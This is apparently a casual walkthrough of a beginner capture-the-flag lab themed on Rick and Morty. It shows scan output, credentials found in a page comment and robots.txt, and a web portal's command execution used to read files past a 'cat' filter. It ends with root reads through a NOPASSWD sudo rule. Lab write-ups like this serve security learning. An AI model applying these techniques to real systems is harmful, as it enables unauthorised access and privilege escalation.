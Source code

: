 # Rick and Morty

<img src="rm.jpeg" width=200 height=200 alt="rm">

My very first ctf in the theme of one of my favorites cartoon

I was not bright enough to take notes doing it so I have to re-do it

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1b:a2:55:2a:98:72:8b:b1:04:a2:92:04:71:e1:63:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD1h54qxFjtSFt0u71oKQVr2fj0sna5xoDSQTcxNlW7467woiH/Ufj4/ccHN32iwsx6FIMJJPRrdy2LUd38DybkLKSnqn1B6UR0LQ8n3QwnKK54ad7PwdwqXsostLASIXSFdjXo25SttYwh4BUzaNjmjihF5o63Qj533Jx0y8Zbbw0vaqFNzBPBYt3+JqkIF5IiBGfiR4zodHOpvi2g9g6AXAl32OhDvd5kqTRVIRDenk69SeR7awKZo+v0WMdJvrUJIriXhlJ72QmAzJo+D/dZba2lsuM8RR7RJnpfA4swwP+t8x3XztlV4EcOmgdf2bA/bIstkTUF+OcKTvaKFo3j
|   256 33:a4:33:d9:d8:14:45:e5:52:be:f6:f7:ed:93:f4:f7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCtRsw3waYPfZ8fzVb3nZb5CDEnzgzwDBIWyMoye7TIE1KWDrD3V3kkqCSyKNKA+I0OGxd3Tcg7Ce3sEuj0gpXk=
|   256 2f:9f:a8:14:a6:aa:72:5d:6c:47:5e:8d:30:63:8f:3d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPtbWlf0LCQkWzV1oNlITISE9ack8cFh0hoaSH0SNGlC
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### ffuf

```
.htpasswd               [Status: 403, Size: 296, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 291, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 296, Words: 22, Lines: 12]
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 1062, Words: 148, Lines: 38]
robots.txt              [Status: 200, Size: 17, Words: 1, Lines: 2]
server-status           [Status: 403, Size: 300, Words: 22, Lines: 12]
```

lol `robots.txt` is litterally put under or nose

On the website you can see rick turned into a pickle again

haha...funniest thing I ever saw

checking the source code (always)

```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

```

`robots.txt` just contains `Wubbalubbadubdub`

might be the password! we try to ssh with those...permission denied!

More website enumeration then...I fuzz for more dir or files

```
.htpasswd               [Status: 403, Size: 300, Words: 22, Lines: 12]
                        [Status: 403, Size: 291, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 295, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 300, Words: 22, Lines: 12]
denied                  [Status: 302, Size: 0, Words: 1, Lines: 1]
login                   [Status: 200, Size: 882, Words: 89, Lines: 26]
portal                  [Status: 302, Size: 0, Words: 1, Lines: 1]

```
`login.php` and `portal.php` look interresting!

We login and reach portal...there we have command execution

I immediatelly try `ls`

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

The first ingredient is there...so lets read it

Denied! haha..poor meeseeks

there is a filter for some commands `cat` doesnt work but you can use `less`

```
less Sup3rS3cretPickl3Ingred.txt
...
```

`clue.txt` says `Look around the file system for the other ingredient.`

use commands to look around...always check home

hehe this part was a bit tricky but I already completed the linux strenght room

```
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

It was not two folders or files its just one file named "second ingredients"

```
less "/home/rick/second ingredients"
...
```
so now there is only one ingredient left...looking around doesnt help

hmm...wait a second...

## privilege escalation ?

```
sudo -l

Matching Defaults entries for www-data on ip-10-10-153-33.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-153-33.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

LMAO! we are litterally root! yeah now we know where it is

```
sudo less /root/3rd.txt
...
```
Done! Wubbalubbadubdub!!





